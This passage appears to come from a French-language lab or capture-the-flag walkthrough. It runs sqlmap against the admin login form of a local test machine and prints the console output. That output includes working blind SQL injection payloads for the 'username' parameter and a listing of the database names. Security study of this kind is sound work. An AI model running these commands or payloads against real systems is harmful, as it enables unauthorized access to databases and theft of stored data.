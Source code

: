 ```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test"
--snip--
[23:00:21] [INFO] testing if the target URL content is stable
[23:00:21] [WARNING] POST parameter 'username' does not appear to be dynamic
[23:00:22] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[23:00:22] [INFO] testing for SQL injection on POST parameter 'username'
--snip--
[23:00:27] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
--snip--
[23:01:18] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
--snip--

sqlmap identified the following injection point(s) with a total of 306 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-4235" OR 9281=9281#&password=test

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=test" OR SLEEP(5)-- QDzg&password=test
---
[23:02:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 6.8
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.12
[23:02:11] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.103'
```

En moins de deux minutes, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le premier paramètre testé ```username``` est vulnérable aux injections SQL. Le deuxième paramètre ```password``` est sans doute également injectable, mais l'injection SQL ici ne se fera que sur le premier paramètre ```username```. Après plusieurs tentatives, SQLMap récupère le nom de chaque base de données trouvée avec ```--dbs```...

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test" --dbs
--snip--
[23:02:48] [INFO] fetching database names
[23:02:48] [INFO] fetching number of databases
[23:02:48] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:02:48] [INFO] retrieved: 4
[23:02:48] [INFO] retrieved: information_schema
[23:02:52] [INFO] retrieved: lampsec
[23:02:54] [INFO] retrieved: mysql
[23:02:55] [INFO] retrieved: test
available databases [4]:
[*] information_schema
[*] lampsec
[*] mysql
[*] test
```
